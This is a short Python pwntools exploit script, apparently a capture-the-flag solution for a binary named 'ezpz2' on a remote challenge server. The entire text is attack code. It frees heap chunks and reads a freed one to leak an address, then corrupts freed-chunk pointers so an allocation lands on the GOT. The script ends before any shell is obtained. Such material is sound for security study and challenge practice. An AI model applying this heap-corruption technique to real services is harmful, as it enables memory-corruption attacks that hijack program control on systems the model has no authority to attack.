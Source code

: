 ```python
#!/usr/bin/python3

from pwn import *

#p = process('./ezpz2')
p = remote('plsdonthaq.me', 7002)
#gdb.attach(p)

# create question
def create():
    p.readuntil('choice,')
    p.sendline('c')

# delete question
def delete(index):
    p.readuntil('choice,')
    p.sendline('d')
    p.readuntil('id:')
    p.sendline(str(index))

# setting question
def setQuestion(index, question):
    p.readuntil('choice,')
    p.sendline('s')
    p.readuntil('id')
    p.sendline(str(index))

    p.readuntil('question')
    p.sendline(question)

# ask a question
def askQuestion(index):
    p.readuntil('choice,')
    p.sendline('a')
    p.readuntil('id')
    p.sendline(str(index))
    p.readuntil("perhaps: '")


# legitimate creates
create()
create()

# to be manipulated
create()
create()

# delete
delete(2)
delete(0)
delete(1)

# read
askQuestion(1)

# cleanup
address = u32(p.readline()[:4])

# have try to malloc the got lol
got = 0x804b010
setQuestion(1, p32(address + 0x20))
setQuestion(0, p32(got))
create()
```